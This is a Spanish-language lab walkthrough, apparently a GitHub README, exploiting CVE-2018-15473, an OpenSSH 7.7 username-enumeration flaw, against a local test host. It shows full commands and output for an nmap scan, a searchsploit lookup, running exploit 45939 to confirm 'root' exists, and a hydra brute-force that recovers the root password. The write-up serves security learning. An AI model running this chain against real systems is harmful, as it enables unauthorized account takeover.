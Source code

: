 # Vulnerabilidad CVE-2018-15473  
<p>Esta vulnerabilidad de la version 7.7. de OPenSSH se produce durante la autenticación porque cuando se esta realizando la autenticación
el sistema primero verifica el usuario si existe o no antes de comprobar el formato de lo que esta escrito, si el usuario no existe saltará el error " SSH2_MSG_USERAUTH_FAILURE " y posteriormente verificará si el formato es correcto, debido a esto se puede comprobar si el usuario
existe o no.</p>

## Requisitos
- nmap
- ssh
- hydra
- searchsploit
- python2

## Exploit
<p>Realizar un escaneo de puertos con nmap</p>

```
nmap -sCV -sS -n -Pn -p- [IP]

```

<p>Esto nos ayudará a escanear los puertos de las IP que esten en nuestra red obteniendo el siguiente resultado<br></p>

```
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

<p>Vemos que tenemos abierto el puerto 22/tcp con un servicio ssh y una version de OpenSSH 7.7,
lo siguiente que debemos hacer es ver que tipo de vulnerabilidades tiene esta version con el siguiente comando</p>

```
searchsploit OpenSSH

```
<p>Esta herramienta nos ayudara a ver que vulnerabilidades tiene esta version, dando como resultado algo similar a esto</p>

```
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
Debian OpenSSH - (Authenticated) Remote SELinux Privilege Es | linux/remote/6094.txt
Dropbear / OpenSSH Server - 'MAX_UNAUTH_CLIENTS' Denial of S | multiple/dos/1572.pl
FreeBSD OpenSSH 3.5p1 - Remote Command Execution             | freebsd/remote/17462.txt
glibc-2.2 / openssh-2.3.0p1 / glibc 2.1.9x - File Read       | linux/local/258.sh
Novell Netware 6.5 - OpenSSH Remote Stack Overflow           | novell/dos/14866.txt
OpenSSH 1.2 - '.scp' File Create/Overwrite                   | linux/remote/20253.sh
OpenSSH 2.3 < 7.7 - Username Enumeration                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)               | linux/remote/45210.py
OpenSSH 2.x/3.0.1/3.0.2 - Channel Code Off-by-One            | unix/remote/21314.txt
OpenSSH 2.x/3.x - Kerberos 4 TGT/AFS Token Buffer Overflow   | linux/remote/21402.txt
OpenSSH 3.x - Challenge-Response Buffer Overflow (1)         | unix/remote/21578.txt
OpenSSH 3.x - Challenge-Response Buffer Overflow (2)         | unix/remote/21579.txt
OpenSSH 4.3 p1 - Duplicated Block Remote Denial of Service   | multiple/dos/2444.sh
OpenSSH 6.8 < 6.9 - 'PTY' Local Privilege Escalation         | linux/local/41173.c
OpenSSH 7.2 - Denial of Service                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                         | linux/remote/40136.py
OpenSSH < 6.6 SFTP (x64) - Command Execution                 | linux_x86-64/remote/45000.c
OpenSSH < 6.6 SFTP - Command Execution                       | linux/remote/45001.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded  | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                         | linux/remote/45939.py
OpenSSH SCP Client - Write Arbitrary Files                   | multiple/remote/46516.py
OpenSSH/PAM 3.6.1p1 - 'gossh.sh' Remote Users Ident          | linux/remote/26.sh
OpenSSH/PAM 3.6.1p1 - Remote Users Discovery Tool            | linux/remote/25.c
OpenSSHd 7.2p2 - Username Enumeration                        | linux/remote/40113.txt
Portable OpenSSH 3.6.1p-PAM/4.1-SuSE - Timing Attack         | multiple/remote/3303.sh
------------------------------------------------------------- ---------------------------------

```

<p> Una vez que hayamos encontrado el exploit de nuestra version procedemos a descargarlo en nuestro directorio</p>

```
searchsploit -m linux/remote/45939

```

<p>Usamos el exploit que se encuentra en nuestro directorio y probaremos con algun nombre de usuario comun como "root"</p>

```
python2 45939 IP root

```

<p>Dandonos un resultado similar a esto, en donde verifica que root es un usuario</p>

```
└─$ python2 45939.py 172.17.0.2 root
/home/kali/.local/lib/python2.7/site-packages/paramiko/transport.py:33: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
[+] root is a valid username

```

<p> Ahora usamos a hydra para hacer un ataque de fuerza bruta al usuario root</p>

```
hydra -l root -P UBICACION_DE_DICCIONARIO ssh:// IP

```

<p>Finalmente obtenemos la contraseña del usuario root</p>

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-01 20:05:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-01 20:05:42

```


